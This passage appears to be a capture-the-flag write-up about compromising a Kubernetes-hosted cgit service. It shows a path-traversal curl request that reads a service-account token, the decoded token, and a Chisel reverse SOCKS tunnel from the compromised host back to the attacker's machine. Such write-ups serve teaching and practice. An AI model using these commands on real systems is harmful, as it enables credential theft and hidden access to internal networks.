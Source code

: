 We could see that manipulating `sam-operator/project_quota` in the annotations could be the key to injecting arbitrary values into the secrets.

### 3. Trying to Use the Token

We found a Kubernetes service token on the **cgit** machine:

```bash
curl http://cgit.lore.tcc/cgit.cgi/foo/objects/?path=../../../../../run/secrets/kubernetes.io/serviceaccount/token
```

This revealed a valid Kubernetes token, which we inspected using JWT:

```json
{
  "aud": [
    "https://kubernetes.default.svc.cluster.local"
  ],
  "exp": 1760908085,
  "iat": 1729372085,
  "iss": "https://kubernetes.default.svc.cluster.local",
  "kubernetes.io": {
    "namespace": "cgit",
    "pod": {
      "name": "cgit-6b4b6b5496-kvf86",
      "uid": "e8b3eea0-a1c9-4775-a803-7ac1c2576871"
    },
    "serviceaccount": {
      "name": "default",
      "uid": "3c331ba1-c216-4503-9f85-df30ea41c3ff"
    },
    "warnafter": 1729375692
  },
  "nbf": 1729372085,
  "sub": "system:serviceaccount:cgit:default"
}
```

To check what permissions the token had, we created a **SOCKS proxy** using **Chisel** to interact with Kubernetes:

On our local machine:
```bash
chisel server -p 2345 --reverse --socks5
```

On the compromised machine:
```bash
chisel client 10.200.0.57:2345 R:socks
2024/10/19 22:59:57 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

After modifying our `/etc/proxychains.conf` to use the proxy, we set up also environment variables:

```bash
export HTTP_PROXY=socks5://localhost:1080
export HTTPS_PROXY=socks5://localhost:1080
```
